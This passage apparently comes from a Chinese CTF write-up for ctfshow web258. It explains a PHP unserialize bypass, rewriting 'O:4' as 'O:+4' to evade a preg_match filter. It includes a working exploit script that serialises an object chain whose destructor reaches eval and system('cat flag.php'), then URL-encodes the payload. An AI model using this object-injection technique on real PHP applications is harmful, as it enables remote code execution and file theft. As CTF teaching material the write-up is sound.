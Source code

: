 ```php
    if (preg_match('/^O:\d+/',$data)){
        die('you lose!');
    }else{
        return $data;
    }
}

$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4', 'O:+4', $a);
unserialize(match($b));
serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');

?>
```

对应 **ctfshow web258**

编写脚本：

```php
<?php
class ctfShowUser
{
    public $username = 'xxxxxx';
    public $password = 'xxxxxx';
    public $isVip = false;
    public $class = 'backDoor';
    public function __construct()
    {
        $this->class = new backDoor();
    }
    public function __destruct()
    {
        $this->class->getInfo();
    }
}
class backDoor
{
    public $code = 'system("cat flag.php");';
    public function getInfo()
    {
        eval($this->code);
    }
}
$a = new ctfShowUser();
$a = serialize($a);
$a = str_replace('O:', 'O:+', $a); //绕过preg_match
echo urlencode($a);
?>
//主要是调用backDoor执行eval命令函数获取flag
```
